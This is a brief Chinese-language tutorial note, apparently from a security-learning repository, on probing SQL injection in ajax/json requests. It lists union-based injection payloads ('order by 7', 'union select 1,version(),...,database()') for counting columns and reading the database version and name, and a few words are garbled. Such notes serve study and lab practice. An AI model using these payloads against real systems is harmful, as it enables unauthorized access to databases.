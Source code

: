 # sql ajax/json/jquery 注入

## 探测

直接在url里输入即可

首先还是探测长度

1 输入'order by 7 -- # 时发现被排序,所以总共有7个数据显示处

2 修改为'union select 1,2,3,4,5,6,7 -- # 形式

3 'union select 1,version(),3,4,database(),6,7 -- # 探测数据库与版A

后续部分与get基础操作一致接口完成任务

